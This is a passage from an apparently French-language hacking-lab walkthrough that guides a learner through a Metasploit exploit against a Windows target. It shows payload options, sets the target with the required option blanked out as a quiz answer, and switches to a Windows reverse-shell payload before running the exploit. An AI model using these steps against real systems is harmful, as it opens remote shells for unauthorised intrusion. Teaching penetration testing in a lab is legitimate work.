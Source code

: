 
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     &lt;IP_ATTACK&gt;      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
</pre>

<br>Nous pouvons voir qu'il n'y a qu'une seule option qui requiert une valeur de notre part:

<br>

> [!IMPORTANT]
> <b>°°°°°°</b>

<br>

### Mise en pratique

Avant de passer à l'étape suivante, il faut définir la cible:

```bash
set °°°°°° <IP_CIBLE>
```
Remplacez `°°°` par la réponse précédente.

<br>

<pre>
Normalement, il est possible d'exécuter cet exploit tel quel, cependant, pour le bien de l'apprentissage, vous devriez
faire une chose de plus avant d'exploiter la cible. 
Entrez la commande suivante et appuyez sur Entrée.

<b>NOTE</b>: Toujours sous "Metasploit".
</pre>

```bash
set payload windows/x64/shell/reverse_tcp
```
<pre>
payload => windows/x64/shell/reverse_tcp
</pre>

<br>

<pre>
With that done, run the exploit!
